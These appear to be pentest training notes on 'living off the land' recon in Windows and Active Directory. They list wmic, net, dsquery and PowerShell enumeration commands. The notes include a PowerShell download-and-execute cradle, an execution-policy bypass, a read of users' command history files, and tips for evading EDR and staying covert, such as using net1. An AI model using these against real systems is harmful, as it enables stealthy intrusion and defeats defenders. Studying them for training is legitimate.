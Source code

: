 # Living Off the Land

## Introduction

* "Living off the land" can be <mark style="color:yellow;">defined as using tools native to Windows and AD</mark>
* This can also be a much more <mark style="color:yellow;">stealthy approach</mark>!

## Environment Commands for Host & Network Recon

```
hostname

[System.Environment]::OSVersion.Version

wmic qfe get Caption,Description,HotFixID,InstalledOn

ipconfig /all

set %USERDOMAIN%

set %logonserver%
```

## Harnessing PowerShell

### Quick Checks

```
Get-Module

Get-ExecutionPolicy -List

Set-ExecutionPolicy Bypass -Scope Process

Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt

Get-ChildItem Env: | ft Key,Value

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```

## Checking Defenses

### Firewall Checks

```
netsh advfirewall show allprofiles
```

### Windows Defender Check (from CMD.exe)

```
sc query windefend
```

### Get-MpComputerStatus

```
Get-MpComputerStatus
```

### Am I Alone?

* <mark style="color:yellow;">This is very useful for finding out if you are the only one logged in or not</mark>
* This is useful because your actions can be detected by others when moving covertly

```
qwinsta
```

## Network Information

```
arp -a 

ipconfig /all

route print

netsh advfirewall show state
```

## Windows Management Instrumentation (WMI)

* <mark style="color:yellow;">A.K.A. WMI is a scripting engine that is widely used within Windows enterprise environments to retrieve information and to run administrative tasks on local and remote hosts</mark>

### WMI Checks

<mark style="color:yellow;">Prints the patch level and description of the Hotfixes applied:</mark>

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

<mark style="color:yellow;">Displays basic host information to include any attributes within the list:</mark>

```
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List
```

<mark style="color:yellow;">A listing of all processes on host:</mark>

```
wmic process list /format:list
```

<mark style="color:yellow;">Displays information about the Domain and Domain Controllers:</mark>

```
wmic ntdomain list /format:list
```

<mark style="color:yellow;">Displays information about all local accounts and any domain accounts that have logged into the device:</mark>

```
wmic useraccount list /format:list
```

<mark style="color:yellow;">Information about all local groups:</mark>

```
wmic group list /format:list
```

<mark style="color:yellow;">Dumps information about any system accounts that are being used as service accounts:</mark>

```
wmic sysaccount list /format:list
```

### WMI Cheat Sheet

{% embed url="https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4" %}

## Net Commands

* These commands can be extremely beneficial to use when attempting to enumerate information from the domain
* <mark style="color:yellow;">These commands can be used to query the local host as well as remote hosts</mark>

<mark style="color:yellow;">With Net, we can list information such as</mark>:&#x20;

* Local and domain users
* Groups
* Hosts
* Specific users in groups
* Domain Controllers
* Password requirements

<mark style="color:red;">WARNING</mark>: net.exe commands are often monitored by EDR solutions and can quickly reveal compromise!

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### Net Commands Trick

* <mark style="color:yellow;">Use net1 instead of net to execute the same functions without setting off alarms to defenders!</mark>

## DSQuery

Obtain a list of disabled users with administrative access and append the -attr to display the description associated with that user:&#x20;

```
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))"  -attr description
```

{% embed url="https://social.technet.microsoft.com/wiki/contents/articles/2195.active-directory-dsquery-commands.aspx" %}
